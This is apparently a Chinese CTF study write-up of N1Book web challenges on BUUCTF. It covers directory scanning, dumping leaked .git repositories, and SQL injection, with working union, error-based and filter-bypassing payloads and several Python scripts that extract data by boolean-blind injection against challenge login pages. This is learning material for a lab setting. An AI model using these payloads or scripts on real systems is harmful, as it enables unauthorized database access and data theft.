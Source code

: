 ---
title: "N1Book Web 学习"
date: 2021-12-28T00:17:37+08:00
draft: false
tags: ['ctf', 'web']
categories: ['learning']
---

[[https://buuoj.cn/challenges][buuctf]] n1book web刷题
* 信息收集
** 常见的收集
网站上可能会有敏感目录/文件导致信息泄漏，如.git，vim的备份文件.swp等。可以用[[https://github.com/maurosoria/dirsearch][dirsearch]]扫描站点目录。

#+begin_src shell
cd dirsearch
python3 dirsearch.py -u 192.168.21.128 -e php
#+end_src

- -u 指定目标ip
- -e 指定网站语言
- -w 可以加上自己的字典（带上路径）
- –random-agents 使用代理（使用的代理目录在uesr-agents.txt中，可以自己添加）

脚本扫描的数据库在 =db= 文件夹，可以自己加。这题的目标文件有三个： =robots.txt= , =index.php~= , =.index.php.swp= 。我一开始扫了2次没扫出来，指定了php语言后扫出了robots.txt。

robots.txt是网站定的允许爬虫规则；后缀为~的是gedit的备份文件；.文件名.swp是vim的备份文件。

** 粗心的小李
git泄漏题可以用的工具有[[https://github.com/lijiejie/githack][GitHack]]，[[https://github.com/denny0223/scrabble][scrabble]]。只要目标网站上有.git，运行脚本就能把网站dump下来。

#+begin_src shell
GitHack.py http://www.openssl.org/.git/
#+end_src

#+begin_Src shell
scrabble http://example.com/
#+end_src
* SQL注入
- 数字型注入
  若输入参数为1，查询的语句为 =select * from table where id=1= 。若输入参数为1+1返回2的结果，基本能确定是数字型输入。
  参数前后没有过滤也没有引号，可以直接union。

- 字符型注入
  在输入参数前后加了引号。若输入参数为1，查询语句为 =select * from table where id = '1'= 。可以通过补全引号后在后面加union，在最后加上#或者--+注释掉之后的内容。

- 报错注入
  mysql中 =updatexml= 函数是用于更新xml文档的函数，语法是 =updatexml(目标xml文档, xml内路径, 更新的内容)= 第二个参数应该为合法的xpath路径，否则会报错同时输出传入的参数。可以用 =concat= 在语句前拼接一个 ='~'= 构造一个非法的xpath，系统会执行后面语句后返回结果，就变成了普通的字符型注入。


** SQL注入-1
先测试一下，发现只有id=1, 2, 3的时候有内容。id=3的时候提示有后门参数tips，tips=1会显示出执行的sql语句。

[[/img/2021-12-29_sql1-tips.png]]

可以看出是字符形式的注入。执行 =select * from notes where id ='-1' union select 1,2, group_concat(table_name) from information_schema.tables where table_schema=database()#'= 获取表名，查到有个表 =fl4g= 。要注意select出来的个数必须为3，直接 =select *= 查不到东西。应该是后台过滤了参数必须为3个，并且只有后面两个会显示，所以查出来的 =table_name= 也要用 =group_concat= 合并为一个字段。拿到表名后执行 =select * from notes where id ='4' union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'fl4g' #'= 获取到列名为fllllag。最后执行 =select * from notes where id = '4' union select 1,2,fllllag from fl4g= 就能获取flag。
** SQL注入-2
看源码发现提示，参数加入 =&tips=1= 的时候会返回报错信息，是报错注入，如果不加提示就是布尔盲注。先来看用提示的。

随便输入用户名会提示账号不存在，用户名输admin提示账号或密码错误。注入点在用户名。执行 =name=admin' and (select extractvalue(1,concat(0x7e,(database()))))--+&pass=123= 拿到库名 =note= ， =name=admin' and extractvalue(1,concat(0x7e,select group_concat(table_name) from information_schema.tables where table_schema = 'note'))--+&pass=123= 拿表名。看错误提示猜测 =select= 被过滤了，用双写 =selselectect= 替换 =select= 拿到表名 =fl4g= 。 =name=admin' and (selselectect extractvalue(1,concat(0x7e,(seleselectct group_concat(column_name) from information_schema.columns where table_name = 'fl4g'))))--+&pass=123= 拿到列名 =flag= ， =name=admin' and(select extractvalue(1,concat(0x7e,(selselectect group_concat(flag) from fl4g))))--+&pass=123= 拿到flag。

盲注参考了[[https://www.cnblogs.com/xiaochaofang/p/14873459.html][这篇博客]]。在用户名字段拼接上语句，若后面的语句成功执行，会提示“用户名或密码错误”，否则会提示“找不到用户”。这其实是布尔盲注，能够获得的信息只有真假值。要是连布尔返回值也没有，就只能用时间盲注了，也就是在语句最后连上 =or sleep(1)= ，根据返回时间判断是否执行，从而转换为布尔盲注。

先测试库名长度 =name=1' or length(database())=4#&pass=asdasd= ，数字为4的时候返回“用户名或密码错误”，确定库名长度为4。随后用 =name=1' or substr(database(),1,1) ='n'#&pass=asdasd= 一个一个字符测试库名。之后和前面的注入一样，找表名和列名，输出flag。用下面脚本爆破得到库名
#+begin_src python
import requests
import time

l = 'qwertyuiopasdfghjklzxcvbnm-=+_,.1234567890}{'          #可能的字符
url = 'http://dc879727-d344-4402-aee0-5d997fcf4208.node3.buuoj.cn/login.php'
sql = "1' or substr(database(),%d,1)='%s'#"             #构造的注入语句
flag = ''
for num in range(1,5):           #根据库名长度进行循环
    for i in l:
        data = {                #构造字典数据
            'name' : sql %(num,i),          #把循环变量放入的sql语句中构造完整变化的sql语句
            'pass' : 'asdasd'
        }
        r = requests.post(url = url , data=data)        #对url提交post请求，data为用户名密码数据
        time.sleep(0.2)         #等待时间
        if r"\u8d26\u53f7\u6216\u5bc6\u7801\u9519\u8bef" in r.text:     #根据回显确定库名
            flag += i
            print("flag:" , flag)
            break
print("flag:", flag)
#+end_src

爆表名

#+begin_Src python
import requests
import time
l = 'qwertyuiopasdfghjklzxcvbnm-=+_,.1234567890}{'          #可能的字符
url = 'http://1b1372ff-b5cb-4f72-98c5-bc9d1f4d321d.node3.buuoj.cn/login.php'
#sql = "1' or substr(database(),%d,1)='%s'#"             #构造的注入语句
sql = "1' or substr((seLEct group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1)='%s'#"
flag = ''
for num in range(1,10):           #根据库名长度进行循环（因为不确定表名长度，我试着写长度稍微大点）
    for i in l:
        data = {                #构造字典数据
            'name' : sql %(num,i),          #把循环变量放入的sql语句中构造完整变化的sql语句
            'pass' : 'asdasd'
        }
        r = requests.post(url = url , data=data)        #对url提交post请求，data为用户名密码数据
        time.sleep(0.2)         #等待时间
        if r"\u8d26\u53f7\u6216\u5bc6\u7801\u9519\u8bef" in r.text:     #根据回显确定库名
            flag += i
            print("flag:" , flag)
            break
print("flag:", flag)
#+end_src
字段名
#+begin_Src python
import requests
import time

l = 'qwertyuiopasdfghjklzxcvbnm-=+_,.1234567890}{'
url = 'http://8454f388-49f3-4980-962b-7b7781dce053.node3.buuoj.cn/login.php'
#sql = "1' or substr(database(),%d,1)='%s'#"
#sql = "1' or substr((seLEct group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1)='%s'#"
sql = "1' or substr((seLEct group_concat(column_name) from information_schema.columns where table_name='fl4g'),%d,1)='%s'#"
flag = ''
for num in range(1,13):
    for i in l:
        data = {
            'name' : sql %(num,i),
            'pass' : 'asdasd'
        }
        r = requests.post(url = url , data=data)
        time.sleep(0.2)
        if r"\u8d26\u53f7\u6216\u5bc6\u7801\u9519\u8bef" in r.text:
            flag += i
            print("flag:" , flag)
            break
print("flag:", flag)
#+end_src
flag
#+begin_Src python
import requests
import time

l = 'qwertyuiopasdfghjklzxcvbnm-=+_,.1234567890}{'
url = 'http://8454f388-49f3-4980-962b-7b7781dce053.node3.buuoj.cn/login.php'
#sql = "1' or substr(database(),%d,1)='%s'#"
#sql = "1' or substr((seLEct group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1)='%s'#"
#sql = "1' or substr((seLEct group_concat(column_name) from information_schema.columns where table_name='fl4g'),%d,1)='%s'#"
sql = "1' or substr((seLEct flag from fl4g),%d,1)='%s'#&pass=asdasd"
flag = ''
for num in range(1,30):
    for i in l:
        data = {
            'name' : sql %(num,i),
            'pass' : 'asdasd'
        }
        r = requests.post(url = url , data=data)
        time.sleep(0.2)
        if r"\u8d26\u53f7\u6216\u5bc6\u7801\u9519\u8bef" in r.text:
            flag += i
            print("flag:" , flag)
            break
print("flag:", flag)
#+end_src
